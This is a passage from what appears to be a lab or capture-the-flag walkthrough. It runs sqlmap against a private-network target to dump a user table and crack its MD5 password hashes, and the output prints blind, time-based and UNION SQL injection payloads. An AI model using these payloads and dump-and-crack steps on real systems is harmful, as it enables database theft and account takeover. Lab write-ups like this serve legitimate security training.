 | time_zone_name                        |
| time_zone_transition                  |
| time_zone_transition_type             |
+---------------------------------------+

{% endhighlight %}

### SQLMap Dump Hahes + Crack hashes

{% highlight bash %}
sqlmap -u "http://192.168.30.147/index.html?page=blog&title=Blog&id=2" -p id -D ehks -T user  --dump
{% endhighlight %}


{% highlight bash %}

_
___ ___| |_____ ___ ___  {1.0-dev-nongit-0826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
|_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:15:25

[12:15:25] [INFO] resuming back-end DBMS 'mysql'
[12:15:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: page=blog&title=Blog&id=2 AND 7114=7114

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
---
[12:15:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:15:25] [INFO] fetching columns for table 'user' in database 'ehks'
[12:15:25] [INFO] fetching entries for table 'user' in database 'ehks'
[12:15:25] [INFO] analyzing table dump for possible password hashes
[12:15:25] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[12:15:34] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
